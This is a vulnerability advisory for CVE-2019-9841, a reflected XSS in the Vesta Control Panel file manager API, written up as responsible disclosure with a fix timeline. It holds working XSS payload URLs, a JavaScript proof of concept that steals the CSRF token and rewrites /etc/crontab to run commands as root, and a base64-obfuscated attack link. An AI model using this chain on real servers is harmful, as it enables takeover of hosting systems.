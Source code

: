 ```yaml
---
title: '[CVE-2019-9841] Vesta Control Panel 0.9.8-23 — Reflected XSS in file manager API'
description: The insufficient output sanitization and inappropriate content type of the responses of the file manager API allows to run arbitrary JavaScript code in the context of the web application.
tags: [CVE, Vesta Control Panel, XSS]
advisory:
  discovered: 2019-03-13
  product:
    name: Vesta Control Panel
    url: https://vestacp.com/
  versions:
    - 0.9.8-23
  tested_versions_only: false
  cve: CVE-2019-9841
---
```


## Abstract

The insufficient output sanitization and inappropriate content type of the responses of the file manager API allows to run arbitrary JavaScript code in the context of the web application. This allows an attacker to impersonate the users of the control panel by tricking them to follow a specially crafted link while authenticated to the web application.

VestaCP users are actual system users and they have the right to manage several services on the hosting server, for example they can create and manage new databases, edit their own crontab, create and manage new mail accounts, etc. They are created by the administrator to whom VestaCP grants full access. This means that triggering the XSS from an administration session could allow an attacker to obtain root access on the hosting server.

## Details

A PHP script located at `/file_manager/fm_api.php` supposedly provides the API for the file managers plugins that can be installed in VestaCP. The script performs the requested operation then returns the result as a JSON string using `text/html` as the content type, often including an error message that reflects some of the provided arguments. By triggering an error using arguments that include a specially crafted HTTP payload it is possible to run arbitrary JavaScript code. For example:

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=alert(1)+/>
```

Produces:

```json
{"result":false,"message":"Error: invalid path \/home\/admin\/<img src=x onerror=alert(1) \/>"}
```

Since the output is a JSON string, some characters are `\`-escaped. It is possible to overcome this limitation by deploying the payload as a Base64 string, for example the above is equivalent to:

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=eval(atob('YWxlcnQoMSk='))+/>
```

This works out-of-the-box with Firefox and Edge, while Safari and Chrome block the script execution as they detect a possible XSS attempt. Hopefully some smarter payload will be able to bypass their XSS auditors.

## PoC: from XSS to root access

VestaCP acts as a wrapper around several system-level operations, the easiest way for an administrator to run a command as `root` is probably to alter the `/etc/crontab` file via the `/edit/server/cron/` page.

For example this cron job creates a file in the web server root as superuser:

```
* * * * * root id >/usr/local/vesta/web/proof
```

Most of the pages in the VestaCP web application employ a CSRF token, so in order to submit the POST form, the token must be obtained by parsing the HTML.

The following JavaScript function replaces `/etc/crontab` and restarts the cron daemon:

```js
(async () => {
    // fetch the CSRF token
    const request = await fetch('/', {credentials: 'include'});
    const text = await request.text();
    const token = text.match(/token="([^"]+)"/)[1];

    // prepare the payload
    const payload = 'id >/usr/local/vesta/web/proof';
    const config = encodeURIComponent(`* * * * * root ${payload}\n`);

    // replace the cron config file
    fetch('/edit/server/cron/', {
        credentials: 'include',
        method: 'POST',
        headers: {
            'content-type': 'application/x-www-form-urlencoded'
        },
        body: `token=${token}&v_config=${config}&v_restart=on&save=Save`
    });
})();
```

For completeness, this is the URL that the victim administrator needs to follow in order to trigger the PoC:

<!-- C-u M-| terser | base64 -w0 | sed 's/+/%2b/g' -->

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=eval(atob('KGFzeW5jKCk9Pntjb25zdCByZXF1ZXN0PWF3YWl0IGZldGNoKCIvIix7Y3JlZGVudGlhbHM6ImluY2x1ZGUifSk7Y29uc3QgdGV4dD1hd2FpdCByZXF1ZXN0LnRleHQoKTtjb25zdCB0b2tlbj10ZXh0Lm1hdGNoKC90b2tlbj0iKFteIl0rKSIvKVsxXTtjb25zdCBwYXlsb2FkPSJpZCA%2bL3Vzci9sb2NhbC92ZXN0YS93ZWIvcHJvb2YiO2NvbnN0IGNvbmZpZz1lbmNvZGVVUklDb21wb25lbnQoYCogKiAqICogKiByb290ICR7cGF5bG9hZH1cbmApO2ZldGNoKCIvZWRpdC9zZXJ2ZXIvY3Jvbi8iLHtjcmVkZW50aWFsczoiaW5jbHVkZSIsbWV0aG9kOiJQT1NUIixoZWFkZXJzOnsiY29udGVudC10eXBlIjoiYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIn0sYm9keTpgdG9rZW49JHt0b2tlbn0mdl9jb25maWc9JHtjb25maWd9JnZfcmVzdGFydD1vbiZzYXZlPVNhdmVgfSl9KSgpOwo='))+/>
```

After one minute check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

## Timeline

2019-03-15
: Disclosed to the VestaCP team.

2019-03-15
: MITRE assigns [{{ page.advisory.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.advisory.cve }}) to this vulnerability.

2019-04-12
: The VestaCP team [fixes](https://github.com/serghey-rodin/vesta/commit/c28c5d29a3c61bc8110c11349e3f2309cd537cfa) the vulnerability.

2019-04-15
: The VestaCP team [releases](https://github.com/serghey-rodin/vesta/commit/e674bf14fd401f419223f1dd06a6e381a3c188a2) version 0.9.8-24.
